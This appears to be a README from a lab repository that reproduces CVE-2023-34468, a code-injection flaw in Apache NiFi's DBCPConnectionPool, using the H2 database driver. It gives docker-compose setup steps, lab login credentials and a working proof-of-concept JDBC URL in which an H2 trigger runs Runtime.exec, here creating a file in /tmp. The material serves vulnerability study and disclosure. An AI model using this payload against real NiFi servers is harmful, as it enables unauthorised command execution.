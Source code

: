 # Apache NiFi Code Injection with Database Services using H2 (CVE-2023-34468)

## Introduction

The DBCPConnectionPool and HikariCPConnectionPool Controller Services in Apache NiFi 0.0.2 through 1.21.0 allow an authenticated and authorized user to configure a Database URL with the H2 driver that enables custom code execution.

## Affected Version

Apache NiFi 0.0.2 - 1.21.0

## Setup && Poc

Run

```bash
docker-compose up
```

and access to `https://localhost:8443`, login with

```
user: root
password: ctsBtRBKHRAx69EqUghvvgEvjnaLjFEB
```

open `NiFi Settings` on the top right, click `MANAGEMENT CONTROLLER SERVICES`, add a new `DBCPConnectionPool` services,

![](images/SCR-20230619-prdq.png)

configure with

```
Database Connection URL: jdbc:h2:mem:db;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE SCHEMA IF NOT EXISTS db\;CREATE TABLE db.TEST(ID INT PRIMARY KEY, NAME VARCHAR(255))\;CREATE TRIGGER POC BEFORE SELECT ON db.TEST AS '//javascript
java.lang.Runtime.getRuntime().exec("touch /tmp/trganda")'
Database Driver Class Name: org.h2.Driver
Database Driver Location(s): file:///opt/nifi/nifi-toolkit-current/lib/h2-2.1.214.jar
```

![](images/SCR-20230619-psmu.png)

after that, click `Apply` to save.

Open the setting of the created `DBCPConnectionPool` services again, click `Verify` to trigger the `getConnection`, and leading command execution.

![](images/SCR-20230619-psmu.png)

The `/tmp/trganda` will be create.

![](images/SCR-20230619-qron.png)

![](images/SCR-20230619-qszp.png)

## References

1. https://nifi.apache.org/security.html#CVE-2023-34468

